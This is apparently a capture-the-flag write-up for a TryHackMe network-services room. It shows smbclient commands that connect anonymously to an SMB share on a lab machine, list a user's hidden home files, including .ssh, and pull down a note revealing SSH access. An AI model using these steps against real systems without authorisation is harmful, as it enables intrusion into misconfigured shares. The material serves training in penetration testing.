 **Got it? Okay, let's do this!**

1. What would be the correct syntax to access an SMB share called "secret" as user "suit" on a machine with the IP 10.10.10.2 on the default port?

`smbclient //10.10.10.2/secret -U suit -p 139`

2. Great! Now you've got a hang of the syntax, let's have a go at trying to exploit this vulnerability. You have a list of users, the name of the share (smb) and a suspected vulnerability.

```
kali@kali:~/CTFs/tryhackme/Network Services$ smbclient //10.10.78.132/profiles
Enter WORKGROUP\kali's password:
Try "help" to get a list of possible commands.
smb: \>
```

`No answer needed`

3. Lets see if our interesting share has been configured to allow anonymous access, I.E it doesn't require authentication to view the files. We can do this easily by:

- using the username "Anonymous"
- connecting to the share we found during the enumeration stage
- and not supplying a password.

Does the share allow anonymous access? Y/N?

`Y`

4. Great! Have a look around for any interesting documents that could contain valuable information. Who can we assume this profile folder belongs to?

```
smb: \> ls
  .                                   D        0  Tue Apr 21 13:08:23 2020
  ..                                  D        0  Tue Apr 21 12:49:56 2020
  .cache                             DH        0  Tue Apr 21 13:08:23 2020
  .profile                            H      807  Tue Apr 21 13:08:23 2020
  .sudo_as_admin_successful           H        0  Tue Apr 21 13:08:23 2020
  .bash_logout                        H      220  Tue Apr 21 13:08:23 2020
  .viminfo                            H      947  Tue Apr 21 13:08:23 2020
  Working From Home Information.txt      N      358  Tue Apr 21 13:08:23 2020
  .ssh                               DH        0  Tue Apr 21 13:08:23 2020
  .bashrc                             H     3771  Tue Apr 21 13:08:23 2020
  .gnupg                             DH        0  Tue Apr 21 13:08:23 2020

                12316808 blocks of size 1024. 7583776 blocks available
smb: \> get "Working From Home Information.txt"
getting file \Working From Home Information.txt of size 358 as Working From Home Information.txt (2.4 KiloBytes/sec) (average 2.4 KiloBytes/sec)
```

```
kali@kali:~/CTFs/tryhackme/Network Services$ cat Working\ From\ Home\ Information.txt
John Cactus,

As you're well aware, due to the current pandemic most of POLO inc. has insisted that, wherever
possible, employees should work from home. As such- your account has now been enabled with ssh
access to the main server.

If there are any problems, please contact the IT department at it@polointernalcoms.uk

Regards,

James
Department Manager
```
